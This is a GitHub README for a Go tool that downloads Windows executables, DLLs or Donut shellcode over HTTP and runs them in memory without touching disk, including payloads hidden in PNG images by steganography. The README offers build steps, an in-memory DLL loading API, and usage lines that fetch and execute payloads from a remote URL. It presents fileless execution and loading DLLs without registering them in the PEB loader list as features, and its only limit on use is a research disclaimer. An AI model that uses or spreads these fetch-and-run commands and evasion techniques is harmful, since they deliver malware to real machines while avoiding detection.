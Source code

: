 # pure go http memexec
[![Go CI](https://github.com/carved4/pure-go-http-memexec/actions/workflows/go.yml/badge.svg)](https://github.com/carved4/pure-go-http-memexec/actions/workflows/go.yml)

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk. Supports executables, DLLs, shellcode (Donut format), and PE files embedded in PNG images.


## Features

- **Zero Disk I/O**: Downloads executables directly to memory and never writes them to disk
- **Pure Go Implementation**: 100% Go code with no CGO dependencies (thank you binject/debug you guys are truly the goats)
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **TLS Callback Support**: Properly handles TLS callbacks in PE files
- **DLL Support**: Can load DLLs in memory and call exported functions
- **Shellcode Support**: Execute Donut-generated shellcode directly in memory
- **Steganography Support**: Extract and execute PE files embedded in PNG images
- **Simple API**: Single command to download and execute payloads

[find binject debug here](https://github.com/Binject/debug)
## How It Works

go http memexec uses a sophisticated reflective PE loading technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Parses the PE file structure using the Binject/debug/pe package
3. Maps the PE file into memory with proper section permissions
4. Resolves imports and fixes relocations
5. Handles TLS callbacks properly
6. For EXEs: Executes the payload by jumping to its entry point
7. For DLLs: Calls DllMain with DLL_PROCESS_ATTACH and lets you call exported functions
8. For PNGs: Extracts the embedded donut shellcode from the PNG and runs it as a thread under the same PID

## Usage

```bash
# Basic usage with default URL (EXE mode)
./go-http-memexec

# Specify a custom download URL (EXE mode)
./go-http-memexec https://example.com/payload.exe

# Load a DLL into memory
./go-http-memexec -dll https://example.com/payload.dll

# Load a DLL and call an exported function by name
./go-http-memexec -dll -proc=RunPayload https://example.com/payload.dll

# Load a DLL and call an exported function by ordinal
./go-http-memexec -dll -ordinal=5 https://example.com/payload.dll

# Execute shellcode (Donut format only)
./go-http-memexec -shellcode https://example.com/shellcode.bin

# Extract and execute PE from PNG image
./go-http-memexec -image https://example.com/payload.png

# Extract and execute donut shellcode from PNG image
./go-http-memexec -image -shellcode https://example.com/payload.png
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution
- Loading DLLs without registering them in the PEB loader list
- Steganographic payload delivery
- Shellcode execution from memory


## Build Instructions

```bash
# Clone repo 
git clone https://github.com/carved4/pure-go-http-memexec.git

# Navigate to directory
cd pure-go-http-memexec

# Get dependencies
go mod tidy

# Navigate to folder containing main.go
cd cmd

# Build the executable
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## DLL Loading API

The package provides the following functions for DLL handling:

```go
// Load a DLL into memory
handle, err := runpe.LoadDLLInMemory(dllBytes)

// Get address of an exported function by name
procAddr, err := runpe.GetProcAddressFromMemoryDLL(handle, "ExportedFunctionName")

// Get address of an exported function by ordinal
procAddr, err := runpe.GetProcAddressByOrdinalFromMemoryDLL(handle, 5) // Ordinal 5

// Call the function
syscall.Syscall(procAddr, numArgs, arg1, arg2, arg3)

// Free the DLL when done
err = runpe.FreeDLLFromMemory(handle, 0)
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- Go 1.20 or later

## Notes
- This project has only been tested on Windows 10
- This is a rewrite of the original C++-based implementation, now in 100% pure Go
- The DLL loading functionality allows more flexible in-memory execution without process hollowing

## Shellcode Support

The `-shellcode` flag enables execution of shellcode directly in memory. **Important notes**:

- **Only Donut-generated shellcode is supported**
- Recommended Donut parameters: `-x 3` and `-e 3`
- The shellcode is executed in a new thread within the current process
- The main process will wait for user input before exiting, allowing the shellcode to run

## PNG Embedding

The `-image` flag enables extraction and execution of PE files embedded in PNG images:

- PE files are embedded using the included `embedPEpng` tool
- The embedding uses LSB (Least Significant Bit) steganography
- The tool automatically detects and extracts the PE file from the PNG
- After extraction, the PE is executed according to its type (EXE or DLL)

### Using the embedPEpng Tool

```bash
# Embed a PE file into a PNG image
./embedPEpng -i source.png -pe payload.exe -o output.png
```

## Demo Usage of tests (payloads pulled down in this example write a benign indicator of success as a .txt to a temp dir)
https://github.com/user-attachments/assets/fbf58f99-fc74-41af-a96a-5ea01bc0c2aa

## Contributing

Users are encouraged to submit issues and create forks of this project for their own use or to contribute improvements. When working with this codebase, please note:

- This project uses the BSD-3-Clause license, as does the Binject/debug/pe dependency
- When creating forks, please maintain the same license terms
- Contributions via pull requests are welcome
- Please give proper attribution and do not claim this work as your own
- When reusing portions of this code in other projects, ensure you comply with the BSD-3-Clause licensing requirements

## License

 [License: BSD-3-Clause](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations.



